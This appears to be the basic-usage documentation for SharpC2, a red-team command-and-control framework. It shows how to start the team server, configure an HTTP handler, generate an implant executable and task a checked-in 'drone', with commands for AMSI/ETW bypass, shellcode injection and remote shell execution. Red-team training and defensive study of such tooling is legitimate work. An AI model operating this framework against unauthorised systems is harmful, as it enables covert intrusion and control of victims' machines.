 # Basic Usage

## Start the Team Server

Launch the team server and provide a shared password that will be used by users to connect.  Make sure you run as root/admin if you want to bind handlers to low ports (e.g. port 80 for the default HTTP handler).


```text
rasta@Rastas-MBP publish % sudo ./TeamServer -p Passw0rd!
Password:
info: Microsoft.Hosting.Lifetime[0]
    Now listening on: https://0.0.0.0:8443
info: Microsoft.Hosting.Lifetime[0]
    Application started. Press Ctrl+C to shut down.
info: Microsoft.Hosting.Lifetime[0]
    Hosting environment: Production
info: Microsoft.Hosting.Lifetime[0]
    Content root path: /Users/rasta/SharpC2/TeamServer/bin/Release/net6.0/osx-x64/publish
```

The team server will listen for user connections on port 8443 by default.  This can be changed in `appsettings.json`.
If the `ASPNETCORE_ENVIRONMENT` environment variable is set to `Development`, the team server's management interface will be bound to localhost only.  Set this to `Production` to have it listen on all interfaces.

## Start the Client

The client requires several command line options including `-s` (--server), `-p` (--port), `-n` (--nick) and `-P` (--password). You'll be prompted to accept the server's self-signed certificate unless `-i` (--ignore-ssl) is used.

```text
./SharpC2 -s localhost -p 8443 -n rasta -P Passw0rd!
  ___ _                   ___ ___
 / __| |_  __ _ _ _ _ __ / __|_  )
 \__ \ ' \/ _` | '_| '_ \ (__ / /
 |___/_||_\__,_|_| | .__/\___/___|
                   |_|
    @_RastaMouse
    @_xpn_


Server Certificate
------------------

[Subject]
  CN=localhost

[Issuer]
  CN=localhost

[Serial Number]
  67B4A5487F67745B

[Not Before]
  25/02/2021 21:01:43

[Not After]
  25/02/2022 21:01:43

[Thumbprint]
  B968C8D9C2B40F4AD7A46C92B0B700DEE46492FE

accept? [y/N] > y
```

## Configure and Start a Handler

In SharpC2, "handlers" are akin to listeners in other frameworks.  SharpC2 handlers can do more than just "listen" for incoming data, which is why I elected to use different terminology.

The `[drones]` screen is the default for the client.  You can type `help` on any screen to see commands contextual to that screen.

```text
[drones] > help

Name          Description
----          -----------
exit          Exit this client
handlers      Manage Handlers
help          Print a list of commands and their description
hide          Hide an inactive Drone.
hosted-files  Manage hosted files
interact      Interact with a Drone
list          List Drones
payload       Generate a payload
```

SharpC2 ships with two handlers. One to egress over HTTP and another to p2p over SMB.

```text
[drones] > handlers
[handlers] > list

Name          Running
----          -------
default-http  False
default-smb   False
```

Use the `set` command to set parameters for a handler.

```text
[handlers] > set default-http BindPort 8080
[+] BindPort set to 8080

[handlers] > set default-http ConnectPort 8080
[+] ConnectPort set to 8080
```

A handler can then be started and stopped using the `start` and `stop` commands respectively.

```text
[handlers] > start default-http
[+] Handler "default-http" started.

[handlers] > stop default-http
[+] Handler "default-http" stopped.
```

## Generate a Payload

Payloads can be generated from the `[drones]` screen, uysing the `payload` command.

```text
[drones] > payload default-http Exe c:\payloads\http-drone.exe
[+] 204800 bytes saved.
```

## Interacting with Drones

```text
[+] Drone fafc9af069 checked in from Daniel@Ghost-Canyon.

[drones] > list

Guid        Parent  Address        Hostname      Username  Process     Pid    Integrity  Arch  LastSeen
----        ------  -------        --------      --------  -------     ---    ---------  ----  --------
fafc9af069  -       192.168.1.229  Ghost-Canyon  Daniel    http-drone  16608  Medium     x64   24/11/2021 18:43:22
```

To interact with a Drone, use `interact <guid>`.

```text
[drones] > interact fafc9af069
[fafc9af069] > help

Name              Description
----              -----------
abort             Abort a running task
back              Go back to the previous screen
bypass            Set a directive to bypass AMSI/ETW on tasks
cat               Read a file as text
cd                Change working directory
execute-assembly  Execute a .NET assembly
exit              Exit this Drone
getuid            Get current identity
help              Print a list of commands and their description
link              Link to an SMB Drone
load-module       Load an external Drone module
ls                List filesystem
mkdir             Create a directory
overload          Map and execute a native DLL
ps                List running processes
pwd               Print working directory
rm                Delete a file
rmdir             Delete a directory
run               Run a command
services          List services on the current or target machine
shell             Run a command via cmd.exe
shinject          Inject arbitrary shellcode into a process
sleep             Set sleep interval and jitter
upload            Upload a file to the current working directory of the Drone
```

```text
[fafc9af069] > getuid
[+] Tasked Drone to run getuid.
[+] Drone checked in.  Sent 176 bytes.
[+] Drone task 57582950c7 is running.

GHOST-CANYON\Daniel

[+] Drone task 57582950c7 has completed.
```